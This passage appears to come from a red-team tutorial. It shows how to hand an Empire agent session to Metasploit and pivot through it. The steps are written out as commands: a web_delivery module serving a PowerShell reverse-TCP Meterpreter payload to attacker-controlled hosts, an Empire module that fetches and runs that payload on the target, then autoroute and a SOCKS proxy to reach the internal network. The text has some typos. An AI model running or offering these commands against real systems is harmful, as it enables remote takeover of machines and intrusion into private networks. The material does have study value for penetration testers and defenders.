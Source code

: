 Once the scan will terminated and in the target 2 we can transfer the empire target to msfconsole to do port fordwarding.

## Portforwarding from Empire target

To do portfordwarding in a Empire target we need to use metasploit.

### Transfer Empire target to Metasploit

Use a web delivery to send a command to connect empire to metasploit

```bash
msfconsole
use exploit/multi/script/web_delivery
set target 2 # to select powershell target
set SRVHOST EMPIRE_SERVER_IP
set LHOST ATTACK_MACHINE
set payload windows/meterpreter/reverse_tcp
exploit
```

Copy the URL that the module generate.

Now we go into Empire client (interacting target session), use this module and set the value with URL copied:

```bash
usemodule powershell/code_execution/invoke_metasploitpayload
set URL https://..../.....
```

Then 5 second we can see that in our msfconsole we would have the new session with the target.

### Metasploit Portfordwarding

Use this automatic module that create a route between the network on a target to our local network

```bash
use post/multi/manage/autoroute
set SESSION 1
run
```

Now we utilize a module to host a target port in our system

```bash
use auxiliary/server/socks_proxy
set SRVHOST ATTACK_IP
run
```

Go to firefox settings, search proxy and select SOCKS Host in Manual proxy configuration. Write the Attack machine and the port selected in socks\_proxy msf module (default is 1080)
